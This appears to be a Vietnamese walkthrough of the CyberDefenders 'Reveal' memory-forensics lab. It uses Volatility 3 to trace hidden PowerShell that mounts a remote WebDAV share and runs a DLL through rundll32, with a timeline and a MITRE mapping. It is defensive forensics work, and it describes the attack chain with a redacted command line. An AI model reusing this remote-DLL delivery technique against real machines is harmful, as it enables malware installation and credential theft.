



Reveal
- Lab: Reveal trên CyberDefenders. Nhóm Endpoint Forensics, độ khó Easy, đã retired.
- Dữ liệu:
192-Reveal.dmp, memory dump (ảnh bộ nhớ RAM) 2 GB của một máy trạm Windows. - Công cụ: Volatility 3 (2.28.2), plugin
windows.pstree(cây tiến trình cha con),windows.getsids(tài khoản và nhóm của tiến trình),windows.malware.malfind(vùng nhớ thực thi không gắn file). - Quy ước:
- Ảnh là ảnh chụp cửa sổ PowerShell chạy Volatility trên memory dump của lab.
- Khung đỏ đánh dấu chỗ cần chú ý. Vùng làm mờ là đáp án (PID cha, tên người dùng, IP, tên share, tên DLL).
Tóm tắt kết quả
- Lúc 07:00:03 UTC ngày 15/07/2024, một tiến trình cha (không còn trong bộ nhớ) sinh ra cùng lúc
wordpad.exevàpowershell.exechạy ẩn (-windowstyle hidden). - PowerShell kết nối một share WebDAV trên một IP public qua cổng 8888 (
net use), rồi gọirundll32chạy hàmentrycủa một DLL tên dạng số, đặt ngay trên share đó. - Tiến trình chạy dưới tài khoản local
S-1-5-21-...-1001, thuộc nhóm Administrators. windows.malware.malfindthấy 5 vùng nhớPAGE_EXECUTE_READWRITEriêng trongpowershell.exe. Dấu hiệu này chưa đủ để kết luận có chèn mã, vì PowerShell (.NET) vẫn tạo vùng nhớ loại này khi biên dịch JIT.
Bước 1: tìm tiến trình bất thường
- Mục tiêu: tìm tiến trình độc đầu tiên và tiến trình cha của nó.
- Cách làm: chạy
windows.pstree, lọc các dòng của tiến trình đáng ngờ và tiến trình cha.
vol -f 192-Reveal.dmp windows.pstree | Select-String 'PPID|\s<PPID>\s|\s3692\s'

- Nhận định:
- PowerShell chạy ẩn cửa sổ và tải mã từ máy ở xa là hành vi bất thường với một máy trạm.
- Tiến trình cha không còn trong danh sách tiến trình, tức đã thoát trước lúc chụp memory. Nó sinh ra
wordpad.exevàpowershell.exetrong cùng một giây. - Chưa đủ dữ liệu để biết tiến trình cha là gì:
windows.pstreekhông còn bản ghi của PID đó. Cần thêm event log (Sysmon tạo tiến trình) hoặc Prefetch của máy. - Hướng giải: tên tiến trình độc và PPID (ô đã làm mờ) đọc trực tiếp ở dòng PID 3692.
Bước 2: xác định người dùng chạy tiến trình
- Mục tiêu: biết tài khoản nào đã chạy PowerShell.
- Cách làm: chạy
windows.getsidscho PID 3692.
vol -f 192-Reveal.dmp windows.getsids --pid 3692

- Nhận định:
- RID 1001 là tài khoản local đầu tiên được tạo trên máy. SID
S-1-5-114xác nhận đây là tài khoản local, không phải tài khoản domain. - Tài khoản có quyền quản trị máy, nên mã độc chạy dưới tài khoản này có toàn quyền trên máy.
- Hướng giải: tên người dùng là ô đã làm mờ ở dòng SID
-1001.
Bước 3: tải payload qua WebDAV
- Mục tiêu: xác định file tầng hai và nơi nó được lấy về.
- Cách làm: đọc command line của PID 3692 và PID 2416 ở Bước 1.
- Nhận định:
- Cú pháp
\\<IP>@8888\<share>\là đường dẫn UNC tới WebDAV (giao thức chia sẻ file qua HTTP) trên cổng 8888. Windows dịch đường dẫn này thành request HTTP tới máy ở xa. net usegắn share trước, sau đórundll32nạp DLL trực tiếp từ share. DLL không cần chép về ổ đĩa cục bộ.- Hướng giải: tên share và tên DLL nằm trong đường dẫn UNC của command line.
Bước 4: chạy DLL qua binary hệ thống
- Mục tiêu: xác định cách DLL được chạy và kỹ thuật MITRE ATT&CK tương ứng.
- Cách làm: đọc phần sau dấu
;trong command line của PID 3692. - Nhận định:
- DLL được truyền cho
rundll32kèm tên hàm exportentry.rundll32.exelà binary có chữ ký của Microsoft trongC:\Windows\System32. - Chạy DLL qua binary hệ thống giúp né các luật chặn dựa trên đường dẫn hay phần mở rộng file.
- Hướng giải: mã kỹ thuật là sub-technique của System Binary Proxy Execution (T1218) dành cho
rundll32.
Bước 5: vùng nhớ thực thi và họ mã độc
- Mục tiêu: kiểm tra dấu hiệu mã chạy trong bộ nhớ và gọi tên họ mã độc.
- Cách làm: chạy
windows.malware.malfindcho PID 3692.
vol -f 192-Reveal.dmp windows.malware.malfind --pid 3692

- Nhận định:
- Vùng nhớ vừa ghi vừa thực thi là nơi mã độc hay dùng để chạy shellcode. Tuy vậy PowerShell (.NET) cũng tạo vùng nhớ loại này khi biên dịch JIT, nên kết quả malfind ở đây chưa đủ để kết luận có chèn mã. Cần dump các vùng này (
--dump) và kiểm tra nội dung (có header PE hay shellcode). - Họ mã độc được xác định qua threat intel. Chuỗi tấn công gồm PowerShell ẩn,
net usetới WebDAV@8888vàrundll32 <số>.dll,entrylà mẫu phát tán đã được nhiều báo cáo công khai mô tả cho một họ stealer chuyên lấy thông tin đăng nhập email. - Chưa đủ dữ liệu để biết thông tin đã bị gửi đi đâu, vì lab không có packet capture hay log firewall.
- Hướng giải: tra IP hoặc tên share WebDAV trên các nền tảng threat intel công khai để lấy tên họ mã độc.
Dòng thời gian
- 15/07/2024 07:00:03 UTC (14:00:03 UTC+7): tiến trình cha sinh
wordpad.exevàpowershell.exe -windowstyle hidden. Nguồn:windows.pstree. - 15/07/2024 07:00:06 UTC (14:00:06 UTC+7): PowerShell sinh
net.exe use \\<IP>@8888\<share>\. Nguồn:windows.pstree. - Sau đó:
rundll32chạy hàmentrycủa DLL trên share WebDAV. Tiến trìnhrundll32không còn trong bộ nhớ lúc chụp. Nguồn: command line của PID 3692.